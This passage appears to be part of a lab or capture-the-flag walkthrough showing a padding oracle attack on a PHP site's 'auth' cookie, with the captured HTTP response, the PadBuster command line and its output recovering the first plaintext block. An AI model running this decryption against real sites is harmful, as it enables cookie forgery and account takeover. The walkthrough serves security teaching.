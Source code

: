 ```html
HTTP/1.1 302 Found
Date: Fri, 24 Jul 2020 12:25:42 GMT
Server: Apache/2.2.21 (Unix) DAV/2 PHP/5.4.3
X-Powered-By: PHP/5.4.3
Set-Cookie: auth=ajjpZSp0uZxPVZRp33L2YfC8tMnXvR94
Location: /index.php
Content-Length: 778
Connection: close
Content-Type: text/html

…omitted for brevity…```

There is a tool built into Kali Linux called PadBuster that we are going to use to decrypt the encryption. The following command is used to generate response signatures:

```bash
root@warmachine:~# padbuster http://URL/login.php ajjpZSp0uZxPVZRp33L2YfC8tMnXvR94 8 --cookies auth=ajjpZSp0uZxPVZRp33L2YfC8tMnXvR94 --encoding 0
+-------------------------------------------+
| PadBuster - v0.3.3 |
| Brian Holyfield - Gotham Digital Science |
| labs@gdssecurity.com |
+-------------------------------------------+



INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1530

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided…starting response analysis

*** Response Analysis Complete ***```

The following response signatures were returned:

```bash
ID# Freq Status Length Location
1 1 200 1677 N/A
2 ** 255 200 15 N/A
Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2
[+] Success: (18/256) [Byte 8]
[+] Success: (34/256) [Byte 7]
[+] Success: (253/256) [Byte 6]
[+] Success: (237/256) [Byte 5]
[+] Success: (238/256) [Byte 4]
[+] Success: (118/256) [Byte 3]
[+] Success: (180/256) [Byte 2]
[+] Success: (233/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 4f559469df72f661
[+] Intermediate Bytes (HEX): 1f4b8c171700dcef
[+] Plain Text: user=tes

```